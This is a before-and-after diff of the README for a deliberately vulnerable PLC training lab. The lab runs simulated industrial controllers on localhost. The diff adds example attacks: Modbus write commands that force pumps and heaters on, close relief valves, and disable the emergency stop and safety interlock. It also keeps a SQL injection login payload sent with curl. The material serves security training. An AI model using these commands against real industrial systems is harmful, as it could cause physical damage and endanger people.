

Before and after one commit to Taimaishu/Vuln-PLC, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -91,7 +113,8 @@ See [Docker Installation](#docker-installation) section for setup instructions.
 
 ### 🔴 Red Team / Penetration Testing
 - **4 Vulnerable PLCs** with realistic exploits
-- **Modbus TCP** protocol manipulation
+- **Real Modbus TCP on ALL PLCs** - protocol-accurate implementation
+- **4 Modbus TCP endpoints** (ports 5502-5505) - all fully functional
 - **Siemens S7** protocol support
 - **Web exploits**: SQL injection, command injection, XSS
 - **Authentication bypasses**
@@ -184,15 +207,15 @@ See [Docker Installation](#docker-installation) section for setup instructions.
 - **PLC-3 (Temperature):** http://localhost:5012 (engineer/temp123)
 - **PLC-4 (Safety):** http://localhost:5013 (safety_eng/safe123)
 
-**Modbus TCP Endpoints:**
-- PLC-1: `127.0.0.1:5502`
-- PLC-2: `127.0.0.1:5503`
-- PLC-3: `127.0.0.1:5504`
-- PLC-4: `127.0.0.1:5505`
+**Modbus TCP Endpoints (All Fully Functional):**
+- PLC-1: `127.0.0.1:5502` ✅ Real Modbus TCP
+- PLC-2: `127.0.0.1:5503` ✅ Real Modbus TCP
+- PLC-3: `127.0.0.1:5504` ✅ Real Modbus TCP
+- PLC-4: `127.0.0.1:5505` ✅ Real Modbus TCP
 
 ### Example Attacks
 
-**Tank Overflow (Visual Impact):**
+**Tank Overflow (PLC-1 - Visual Impact):**
 ```bash
 # Open HMI: http://localhost:8000
 sudo modbus 127.0.0.1:5502 write 0 1   # Force pump ON
@@ -200,14 +223,28 @@ sudo modbus 127.0.0.1:5502 write 1 0   # Force valve CLOSED
 # Watch tank overflow in real-time!
 ```
 
-**Pressure Spike:**
+**Pressure Vessel Rupture (PLC-2):**
 ```bash
 sudo modbus 127.0.0.1:5503 write 0 1   # Compressor ON
 sudo modbus 127.0.0.1:5503 write 1 0   # Relief valve CLOSED
 # Pressure rises until rupture
 ```
 
-**SQL Injection:**
+**Thermal Runaway (PLC-3):**
+```bash
+sudo modbus 127.0.0.1:5504 write 0 1   # Heater 1 ON at full power
+sudo modbus 127.0.0.1:5504 write 2 0   # Cooler 1 OFF
+# Temperature rises uncontrollably
+```
+
+**Safety System Bypass (PLC-4):**
+```bash
+sudo modbus 127.0.0.1:5505 write 0 0   # Disable emergency stop
+sudo modbus 127.0.0.1:5505 write 1 0   # Disable safety interlock
+# All safety systems now bypassed - catastrophic!
+```
+
+**SQL Injection (Web Interface):**
 ```bash
 curl -X POST http://localhost:5000/login \
   -d "username=admin' OR '1'='1&password=x"
````
Also changed, not shown: other parts of README.md (+24 -2 lines).
